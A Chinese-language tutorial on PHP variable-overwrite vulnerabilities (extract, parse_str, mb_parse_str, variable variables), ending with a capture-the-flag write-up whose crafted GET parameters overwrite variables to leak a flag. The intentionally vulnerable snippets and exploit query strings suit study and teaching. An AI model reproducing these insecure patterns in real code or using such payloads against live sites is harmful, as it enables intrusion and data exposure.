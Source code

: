 > 变量覆盖漏洞是指攻击者使用自定义的变量去覆盖源代码中的变量,从而改变代码逻辑,实现攻击目的的一种漏洞

1. `extract`函数使用不当

`extract`从数组中将变量导入到当前的符号表

>**警告** 不要对不可信的数据使用`extract`,类似用户输入(例如`$_GET`,`$_FILES`)

```php
<?php
$a=1;
$b=2;
extract($_GET['a']);
var_dump($_GET['a']);
var_dump($a);
var_dump($b);
?>
```

传入`?a[a]=123&a[b]=456`得到`array(2) { ["a"]=> string(3) "123" ["b"]=> string(3) "456" } string(3) "123" string(3) "456"`可见变量已经被修改

2. `parse_str`函数使用不当

`parse_str`将字符串解析成多个变量

`parse_str ( string $string , array &$result ) : void`

如果`string`是URL传递入的查询字符串,则将它解析为变量并设置到当前作用域(如果提供了`result`则会设置到该数组里)

```php
<?php
    $a=1;
    var_dump($a);
    parse_str("a=3");
    var_dump($a);
	/*int(1)
    string(1) "3"*/
?>
```

3. `mb_parse_str`

解析`GET/POST/COOKIE`数据并设置全局变量

与`parse_str`相似

4. `$$`可变变量

```php
<?php
    $a=1;
    $b="a";
    $c="b";
    $d="c";
    var_dump($d);
    var_dump($$d);
    var_dump($$$d);
    var_dump($$$$d);
?>
```

```
string(1) "c"
string(1) "b"
string(1) "a"
int(1)
```

> [BJDCTF2020]Mark loves cat

```php
<?php
include 'flag.php';
$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}
foreach($_GET as $x => $y){
    $$x = $$y;
}
foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}
if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
echo "the flag is: ".$flag;
```

假设通过`exit($handsome)`getflag,那么`$handsome=$flag`

通过get传参`handsome=flag&flag=handsome`同时满足`$x=handsome,$y=flag,$$x=$handsome,$$y=$flag`和`$_GET['flag'] === $x && $x !== 'flag'`,即可getflag

---

假设通过`exit($yds)`getflag,那么`$yds=$flag`

通过get传参`yds=flag`可以满足`$x=yds,$y=flag,$$x=$yds,$$y=$flag`,即可getflag